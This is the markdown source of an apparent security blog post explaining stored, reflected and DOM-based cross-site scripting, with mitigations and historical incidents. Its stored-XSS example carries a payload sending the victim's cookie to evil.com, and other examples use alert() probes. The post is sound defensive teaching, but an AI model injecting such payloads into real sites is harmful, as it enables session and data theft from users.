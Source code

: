```yaml
---

title: "Cross-Site Scripting (XSS): OWASP Top 10 \& Real-World Exploitation"

date: 2025-07-31

layout: post

tag: \[OWASP, Web Security, XSS]

---
```




<div style="display: flex; gap: 30px; align-items: flex-start; margin-bottom: 30px;">



\&nbsp; <!-- Table of Contents -->

\&nbsp; <div style="flex: 1; background-color: #f9f9f9; padding: 20px; border-left: 5px solid #007acc; border-radius: 6px;">



\&nbsp;   <strong>Table of Contents</strong>



\&nbsp;   <ul>

\&nbsp;     <li><a href="#what-is-cross-site-scripting-xss">What is Cross-Site Scripting (XSS)?</a></li>

\&nbsp;     <li><a href="#types-of-xss">Types of XSS</a>

\&nbsp;       <ul>

\&nbsp;         <li><a href="#1-stored-xss">1. Stored XSS</a></li>

\&nbsp;         <li><a href="#2-reflected-xss">2. Reflected XSS</a></li>

\&nbsp;         <li><a href="#3-dom-based-xss">3. DOM-Based XSS</a></li>

\&nbsp;       </ul>

\&nbsp;     </li>

\&nbsp;     <li><a href="#how-xss-attacks-work">How XSS Attacks Work</a></li>

\&nbsp;     <li><a href="#real-world-examples">Real-World Examples</a></li>

\&nbsp;     <li><a href="#general-mitigation-strategies">General Mitigation Strategies</a></li>

\&nbsp;     <li><a href="#conclusion">Conclusion</a></li>

\&nbsp;     <li><a href="#references">References</a></li>

\&nbsp;   </ul>



\&nbsp; </div>

</div>



\## What is Cross-Site Scripting (XSS)?



Cross-Site Scripting (XSS) is a client-side code injection vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. When executed in the victim’s browser, these scripts can steal cookies, session tokens, sensitive data, or perform actions on behalf of the user. XSS is included in the \[OWASP Top 10](https://owasp.org/Top10) due to its high frequency and impact.



---



\## Types of XSS



\### 1. Stored XSS



\*\*Definition:\*\*  

Stored XSS occurs when malicious scripts are permanently saved on the target server (e.g., in a database, comment section, forum post). Any user who accesses the affected page will automatically execute the malicious code.



\*\*How it works:\*\*

1\. Attacker submits malicious JavaScript into an input field that gets stored in the application’s database.

2\. When another user loads the page, the stored script is included in the page’s HTML and executed by the browser.

3\. The script can perform actions like stealing cookies, keylogging, or redirecting the user to malicious sites.



\*\*Example payload \& Mitigation:\*\*

<script>fetch('https://evil.com?cookie=' + document.cookie)</script>  

Mitigation: Sanitize and validate all user inputs before storing them; use context-aware output encoding; avoid directly inserting untrusted data into HTML; apply a strict Content Security Policy (CSP).



---



\### 2. Reflected XSS



\*\*Definition:\*\*  

Reflected XSS occurs when malicious scripts are embedded in a URL or request and reflected back to the browser in the server’s response without proper sanitization.



\*\*How it works:\*\*

1\. Attacker crafts a malicious link containing JavaScript code in a parameter.

2\. Victim clicks the link and sends a request to the vulnerable application.

3\. The application reflects the malicious input in its response, which the browser executes.



\*\*Example payload \& Mitigation:\*\*

https://example.com/search?q=<script>alert('XSS')</script>  

Mitigation: Sanitize and encode all user inputs before reflecting them in responses; use frameworks that automatically escape output; avoid dynamically generating HTML from untrusted data; implement CSP to block inline scripts.



---



\### 3. DOM-Based XSS



\*\*Definition:\*\*  

DOM-Based XSS happens when the client-side JavaScript modifies the DOM based on untrusted data without proper sanitization, leading to script execution without any server-side involvement.



\*\*How it works:\*\*

1\. Attacker crafts a malicious payload that manipulates the page’s DOM via URL fragments, query parameters, or other sources.

2\. The vulnerable JavaScript code inserts this data directly into the page without escaping.

3\. The browser executes the malicious code.



\*\*Example vulnerable code, attack URL \& Mitigation:\*\*

document.write(location.hash);  

Attack URL: https://example.com/page#<script>alert('XSS')</script>  

Mitigation: Avoid dangerous DOM manipulation methods like document.write() and innerHTML with untrusted data; use safe DOM APIs like textContent or setAttribute(); sanitize inputs with trusted libraries (e.g., DOMPurify); implement CSP to prevent execution of injected scripts.



---



\## How XSS Attacks Work



1\. \*\*Injection:\*\* The attacker injects malicious JavaScript into a vulnerable page.

2\. \*\*Execution:\*\* The victim’s browser renders the page and runs the script.

3\. \*\*Impact:\*\* The attacker can steal session cookies, perform actions as the user, or spread malware.



---



\## Real-World Examples



\- \*\*MySpace Samy Worm (2005):\*\* A self-replicating XSS worm that spread to over 1 million profiles in 24 hours.

\- \*\*British Airways Breach (2018):\*\* Malicious JavaScript was injected to steal payment details from thousands of customers.



---



\## General Mitigation Strategies



\- Validate and sanitize all user inputs on both client and server.

\- Use context-specific output encoding.

\- Enforce a strong Content Security Policy (CSP).

\- Avoid unsafe JavaScript functions and DOM manipulation methods.

\- Use security features provided by frameworks.

\- Regularly test for XSS vulnerabilities using automated scanners and manual penetration testing.



---



\## Conclusion



XSS is a critical vulnerability that undermines user trust and can cause severe data breaches. By implementing proper input handling, output encoding, and browser-based security controls, developers can significantly reduce the risk of exploitation.



---



\## References



\- \[OWASP: Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)

\- \[PortSwigger: XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

\- \[Google CSP Evaluator](https://csp-evaluator.withgoogle.com/)

```




